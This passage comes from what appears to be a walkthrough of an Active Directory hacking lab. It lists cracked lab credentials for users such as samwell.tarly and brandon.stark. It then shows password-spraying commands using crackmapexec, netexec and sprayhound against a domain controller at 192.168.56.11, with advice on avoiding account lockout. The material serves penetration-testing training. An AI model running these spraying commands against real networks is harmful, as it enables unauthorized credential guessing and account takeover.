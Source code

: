 - We found the user password “iseedeadpeople”
    
- We now have two couple of credentials :
    
    - samwell.tarly:Heartsbane
    - brandon.stark:iseedeadpeople

### Password Spray

- We could try the classic user=password test

```bash
cme smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce
```


- We also could use sprayhound (https://github.com/Hackndo/sprayhound)
```
sudo apt install sprayhound
```

```bash
sprayhound -U users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 --lower
```

![screenshot](pics/sprayhound.png)

> When you are doing password spray, be careful you can lock accounts!

- We could try sprayhound with a valid user to avoid locking account (option -t to set the number of try left)

```bash
sprayhound -U users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2
```

![screenshot](pics/sprayhound_single.png)

- See the status of bruteforce
```bash
nxc smb -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local 192.168.56.11 --users
```
